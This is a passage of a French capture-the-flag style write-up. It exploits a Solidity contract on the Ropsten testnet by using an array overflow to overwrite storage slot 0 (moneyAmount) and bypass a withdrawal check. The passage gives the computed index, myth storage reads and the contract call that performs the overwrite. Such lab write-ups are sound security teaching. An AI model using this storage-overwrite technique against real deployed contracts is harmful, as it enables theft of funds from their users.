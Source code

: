 On trouve alors `80084422859880547211683076133703299733277748156566366325829078699459944779289`.

```js
$ myth read-storage --rpc infura-ropsten 80084422859880547211683076133703299733277748156566366325829078699459944779289 0xde89B12A8c06e608D99d4C4d2a98708F984Ed0a5

80084422859880547211683076133703299733277748156566366325829078699459944779289: 0x0000000000000000000000000000000000000000000000000000000000000016
```

On retrouve bien le `0x16` que nous avons envoyé tout à l'heure.

## Attack

> * [Array overflow](https://ethereum.stackexchange.com/questions/70409/solidity-array-overflow)
> * [Vehicle Registration System](https://medium.com/@iphelix/chain-heist-writeup-4f008cd6d346)

Notre but va être de localiser la position du slot 0, étant donné que c'est ce dernier qui contient la valeur de `moneyAmount`, qui je le rappelle vaut 0 pour le moment. Pour cela, nous allons faire un array overflow.

```js
moneyAmount >= 2000000 
```

Le but de cette modification est de bypass le require de la fonction `withdrawMoneyFromAccount()`.

D'après les ressources, on peut avoir accès en écriture au slot 0 à `savingAccounts[2**256 - keccak256(abi.encodePacked(uint256(1)))]`.

On trouve alors `4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a`.

Essayons alors d'écrire `0x456` à cet index. 

```bash
# valeur de moneyAmount
$ myth read-storage --rpc infura-ropsten 0 0xde89B12A8c06e608D99d4C4d2a98708F984Ed0a5
0: 0x0000000000000000000000000000000000000000000000000000000000000000
```

```js
contract.putMoneyOnAccount("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", "0x456", (err,res)=>{console.log(err,res);});
```

```bash
# valeur de moneyAmount
$ myth read-storage --rpc infura-ropsten 0 0xde89B12A8c06e608D99d4C4d2a98708F984Ed0a5
0: 0x0000000000000000000000000000000000000000000000000000000000000456
```

> ```js
> contract.moneyAmount((err,res)=>{console.log(err,res);});
> --> 1110
> ```
>
> On peut aussi faire l'appel directement dans la console Javascript étant donné que `moneyAmount`est un champ public.
